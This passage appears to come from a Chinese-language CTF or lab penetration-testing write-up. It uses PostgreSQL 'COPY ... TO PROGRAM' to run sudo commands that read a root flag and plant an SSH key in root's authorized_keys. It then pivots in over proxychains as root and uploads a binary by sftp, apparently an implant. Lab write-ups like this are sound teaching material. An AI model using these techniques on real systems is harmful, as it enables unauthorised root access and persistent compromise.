 ```sql
COPY (SELECT '') TO PROGRAM 'sudo cat /root/flag > /tmp/root_flag.txt';

SELECT pg_read_file('/tmp/root_flag.txt', 0, 1000);
```

`flag{RcCME5JgU3v76drzG12moDIi0j4ftPy8}`

### 第三层
写公钥上去   
```bash
# 生成ssh密钥
ssh-keygen -t rsa -b 2048 -f my_root_key

#查看密钥
cat my_root_key.pub
内容

# 上传公钥
COPY (SELECT '') TO PROGRAM 'echo "内容" | sudo tee -a /root/.ssh/authorized_keys';

# 代理连接
┌──(xad㉿kali)-[~]
└─$ proxychains4 ssh -i my_root_key root@192.168.188.223
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
[proxychains] Strict chain  ...  127.0.0.1:1148  ...  192.168.188.223:22  ...  OK
The authenticity of host '192.168.188.223 (192.168.188.223)' can't be established.
ED25519 key fingerprint is SHA256:kUXE5oYjaMKMOM4LEU4AkuddRfE5rOXTewprv0EfQRc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.188.223' (ED25519) to the list of known hosts.
[root@localhost ~]# id
uid=0(root) gid=0(root) 组=0(root) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
```

sftp上传文件上线  
```bash
proxychains4 sftp -i my_root_key root@192.168.188.223

put /home/xad/tcp_linux_amd64 /root/tcp_linux_amd64
```

![](assets/img/attachments/QQ_1754559232662.png)

上传内容扫一下  